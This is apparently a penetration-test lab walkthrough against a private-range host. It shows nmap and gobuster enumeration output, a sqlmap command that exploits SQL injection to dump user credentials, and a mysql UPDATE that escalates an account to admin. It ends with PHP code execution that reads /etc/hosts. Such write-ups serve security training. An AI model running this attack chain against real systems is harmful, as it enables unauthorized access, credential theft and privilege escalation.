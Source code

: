 # 172.16.64.92
```
Nmap scan report for 172.16.64.92
Host is up (0.092s latency).
Not shown: 993 closed ports
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:86:09:b3:d6:d1:ba:d0:28:65:33:b7:82:f7:a6:34 (RSA)
|   256 3b:d7:39:c3:4f:c4:71:a2:16:91:d1:8f:ac:04:a8:16 (ECDSA)
|_  256 4f:43:ac:70:09:a6:36:c6:f5:b2:28:b8:b5:53:07:4c (ED25519)
42/tcp    filtered nameserver
53/tcp    open     domain        dnsmasq 2.75
| dns-nsid: 
|_  bind.version: dnsmasq-2.75
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photon by HTML5 UP
1070/tcp  filtered gmrupdateserv
3333/tcp  filtered dec-notes
30000/tcp filtered ndmps
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```
gobuster dir -u 172.16.64.92/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -r
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.64.92/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
2021/08/18 15:35:41 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 200) [Size: 2129]
/assets               (Status: 200) [Size: 1497]
                                                
===============================================================
2021/08/18 15:48:18 Finished
===============================================================
```

Going to the URL gives us a random alert box saying `Loaded!` and checking the source code we see a js file that looks interesting when we view the source. 
![footracking.png](footracking.png)

![footracking_source.png](footracking_source.png)

If we try to go to the URL it will fail by saying `null null`, but removing the 2 at the end gives us an input box which we can use sqli on the `id` value
![tracking.png](tracking.png)

sqlmap enumeration with `sqlmap -u http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=3 --dump -D footracking -T users` will return 4 username:password combinations. 
![foodump.png](foodump.png)

Web enumeration with gobuster shows us a `login.php` where we can login as the `tracking1` user. There's no privileges under this account, but  viewing the source of the page we see db credentials
![foodb.png](foodb.png)

Connecting to the db and executing the following commands will get `tracking1` to an admin user:
```
mysql -u dbuser -p -P 63306 -h 172.16.64.92
[enter password]
use footracking;
update users set adm="yes" where username="tracking1";
select * from users;
```
Then we just have to log out and back in. Now we have php code execution, you can poke around but will ultimately get to `system("cat /etc/hosts");` which will give you the website for the `172.16.64.91` machine
![etc_hosts.png](etc_hosts.png)
